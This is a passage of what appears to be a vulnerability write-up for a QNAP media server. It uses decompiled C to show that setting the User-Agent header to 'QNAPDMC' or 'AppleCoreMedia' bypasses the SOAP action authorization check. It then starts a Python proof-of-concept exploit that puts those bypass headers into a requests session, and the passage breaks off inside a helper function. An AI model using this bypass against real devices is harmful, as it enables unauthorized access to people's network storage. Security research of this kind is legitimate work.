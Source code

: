 if request header has “Soapaction”, Function ExecuteSoapAction is executed.

(*(long *)(param_1 + 0x10) value was setted in FUN_001293f0 )

```c
  if ((int)(param_1[10] - param_1[0xc]) < (int)param_1[0xb]) {
    param_1[3] = 1;
    return (ulong)(param_1[10] - param_1[0xc]);
  }
  if (*(long *)(param_1 + 0x10) != 0) {
    uVar2 = ExecuteSoapAction(param_1,*(long *)(param_1 + 0x10),param_1[0x12]);
    return uVar2;
  }
```

In ExecuteSoapAction, if (*(int *)(param_1 + 0x38) is same as g_QNAPDMCClientTypeId, We can bypass Authorization.

```c
  if ((*(int *)(param_1 + 0xac) != 0) && (*(int *)(param_1 + 0x38) != g_QNAPDMCClientTypeId)) {
    if (n_lan_addr < 1) {
LAB_0014a27f:
      pcVar6 = "Deny Access";
      goto LAB_0014a3dd;
    }
    if (DAT_00398a90 != *(int *)(param_1 + 4)) {
      puVar3 = &lan_addr;
      do {
        if (puVar3 == &lan_addr + (ulong)(n_lan_addr - 1) * 0x1c) goto LAB_0014a27f;
        piVar1 = (int *)(puVar3 + 0x2c);
        puVar3 = puVar3 + 0x1c;
      } while (*piVar1 != *(int *)(param_1 + 4));
    }
  }
  pcVar6 = strchr(param_2,0x23);
```

The variable (*(int *)(param_1 + 0x38) is initialized in FUN_001293f0 by using “User-Agent”.

So We can bypass Authorization, using request header “User-Agent: AppleCoreMedia, User-Agent: QNAPDMC”.


## Exploit

```python
#!/usr/bin/python3
# POC.py

import requests
import html, os, time
import xml.etree.ElementTree as ET
import argparse

from xml.dom.minidom import parseString
#from tqdm import tqdm

log = lambda x: print("\033[31m[+]" + "\033[37m"+x)

HOST = 'http://{0}:{1}'

session = requests.Session()
auth_bypass_header= {"User-Agent": "AppleCoreMedia"}
auth_post_bypass_header= {"User-Agent": "QNAPDMC"}

def makedirs(path):
    if not os.path.exists(path):
```